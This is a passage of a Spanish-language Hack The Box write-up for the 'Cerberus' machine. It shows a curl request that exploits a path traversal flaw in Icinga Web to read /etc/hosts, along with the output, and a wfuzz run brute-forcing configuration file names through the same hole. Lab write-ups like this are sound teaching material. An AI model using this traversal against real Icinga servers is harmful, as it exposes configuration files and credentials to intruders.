 ```null
http://icinga.cerberus.local:8080/icingaweb2/authentication/login?_checkCookie=1 [403 Forbidden] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.205]
```

La página principal se ve así:

<img src="/writeups/assets/img/Cerberus-htb/1.png" alt="">

En este [artículo](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/) explican donde es vulnerable a LFI

```null
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Desde la [Documentación oficial](https://icinga.com/docs/icinga-web/latest/doc/05-Authentication/) se puede ver donde se almacenan los archivos de configuración. Todos ellos tienen la extensión ```INI```. Aplico fuzzing para descurbrir rutas

```null
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/Seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/FUZZ.ini
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/FUZZ.ini
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
```